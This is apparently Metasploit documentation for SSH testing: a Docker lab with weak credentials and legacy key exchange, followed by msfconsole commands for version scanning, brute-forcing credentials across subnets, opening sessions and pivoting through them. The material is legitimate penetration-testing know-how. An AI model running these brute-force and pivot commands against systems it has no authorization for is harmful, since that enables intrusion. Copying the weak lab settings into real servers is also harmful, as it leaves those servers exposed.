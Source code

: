 ## SSH Workflows

SSH, also known as Secure Shell or Secure Socket Shell, is frequently found on port 22/TCP. The protocol allows for SSH clients to securely connect to a running SSH server to execute commands against, the protocol also supports tunneling network traffic - which Metasploit can leverage for pivoting purposes.

Metasploit has support for multiple SSH modules, including:

- Version enumeration
- Verifying/bruteforcing credentials
- Opening sessions
- Pivoting support

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search ssh
```

### Lab Environment

There are multiple SSH servers to choose from and install on a host machine, including:
- OpenSSH - OpenBSD Secure Shell, most popular
- Dropbear

It is also possible to use [Docker](https://www.docker.com/). First create a new `Dockerfile`:

```docker
FROM alpine:latest

RUN apk add --update
RUN apk --no-cache add openssh
RUN ssh-keygen -A
RUN echo 'root:toor' | chpasswd

RUN echo $' AuthorizedKeysFile .ssh/authorized_keys\n\
GatewayPorts no \n\
X11Forwarding no \n\
Subsystem       sftp    /usr/lib/ssh/sftp-server \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes \n\
PasswordAuthentication yes \n\
AllowTcpForwarding yes' > /etc/ssh/sshd_config

RUN echo "KexAlgorithms diffie-hellman-group1-sha1"  >> /etc/ssh/sshd_config

RUN addgroup -g 700 test_user \
    && adduser -G test_user -D -u 700 -S -h /home/test_user -s /bin/sh test_user
RUN echo -n 'test_user:password123' | chpasswd

EXPOSE 22

CMD ["/usr/sbin/sshd","-D"]
```

Build and run:

```
docker build --tag ssh_lab:latest - < Dockerfile
docker run --rm -it --publish 127.0.0.1:2222:22 ssh_lab:latest
```

It should now be possible to test the SSH login from msfconsole:

```
msf6 > use scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://test_user:password123@127.0.0.1:2222

[*] 127.0.0.1:2222 - Starting bruteforce
[+] 127.0.0.1:2222 - Success: 'test_user:password123' 'uid=700(test_user) gid=700(test_user) groups=700(test_user),700(test_user) Linux 5a26fe63abef 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 Linux '
[*] SSH session 1 opened (127.0.0.1:57318 -> 127.0.0.1:2222 ) at 2022-04-23 01:25:01 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Note that TCP forwarding requires the `AllowTcpForwarding` option to be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

### SSH Enumeration

Enumerate SSH version:

```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

### SSH Bruteforce

Brute-force host with known user and password list:

```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### SSH Login Session

If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:

```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Re-using SSH credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

### SSH Pivoting

It is only possible to perform SSH Pivoting if the remote target has the `AllowTcpForwarding` option be enabled in the server's configuration file, which is often the default. If the option is disabled or the more specific `PermitOpen` option does not allow the connection to be made, the connection will fail with the `administratively prohibited` error.

Like Meterpreter, it is possible to [port forward through a Metasploit SSH session](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login.md#session-capabilities):

```
route add 172.18.103.0/24 ssh_session_id
```

To a route for the most recently opened Meterpreter session:

```
route add 172.18.103.0/24 -1
```
